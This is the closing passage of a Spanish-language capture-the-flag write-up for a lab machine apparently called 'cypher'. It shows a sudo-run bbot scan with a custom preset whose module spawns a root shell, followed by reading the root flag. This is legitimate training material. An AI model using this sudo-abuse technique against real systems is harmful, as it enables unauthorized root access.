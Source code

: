 ~~~ bash
graphasm@cypher:/tmp/privesc/privesc$ sudo /usr/local/bin/bbot -t dummy.com -p ./preset.yml --event-types ROOT

  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[INFO] Scan with 1 modules seeded with 1 targets (1 in whitelist)
[INFO] Loaded 1/1 scan modules (systeminfo_enum)
[INFO] Loaded 5/5 internal modules (aggregate,cloudcheck,dnsresolve,excavate,speculate)
[INFO] Loaded 5/5 output modules, (csv,json,python,stdout,txt)
[SUCC] systeminfo_enum: 📡 systeminfo_enum setup called — launching shell!
                                                                          root@cypher:/tmp/privesc/10.10.14.187# id
                                                                          uid=0(root) gid=0(root) groups=0(root)
~~~

Ya podremos ver la última flag del sistema ubicada en el directorio `/root`

~~~ bash
root@cypher:/tmp/privesc/10.10.14.187# cat /root/root.txt 
283...
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

>  In a controversy the instant we feel anger we have already ceased striving for the truth, and have begun striving for ourselves.
> — Buddha
{: .notice--info}
